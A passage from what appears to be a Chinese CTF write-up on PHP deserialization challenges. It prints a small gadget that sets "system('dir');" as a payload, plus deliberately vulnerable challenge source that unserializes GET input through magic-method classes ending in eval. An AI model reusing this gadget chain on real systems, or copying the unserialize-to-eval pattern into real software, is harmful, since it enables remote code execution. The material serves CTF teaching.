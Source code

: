 ```php
class CHIVE{
    public $hello = "";
    public function __construct()
    {
        $this->hello = "system('dir');";
    }
}
$a = new CHIVE();
```





## hard_unserial

也是简单的反序列化, 利用链很短

```php
<?php
include('./hint.php');
class CHIVE1
{
    public $aa = "show_me_flag";
    public $bb;
    public $source;
    public function __wakeup()
    {
        if ($this->aa == "show_me_flag") {
           hint();
        }
    }
}

class CHIVE2
{
    public $dd;
    public function __toString()
    {
        $dd = $this->dd;
        $dd();
        return "1";
    }
}
class CHIVE3{
    public $bb;
    public $source = '';
    public function __invoke()
    {
        $this->bb->source;
    }
}
class CHIVE4{
    public $ee;
    public function __get($name)
    {
        eval($this->ee);
    }
}


if(isset($_GET['chive'])){
    @unserialize($_GET['chive']);
}else{
    highlight_file(__FILE__);
```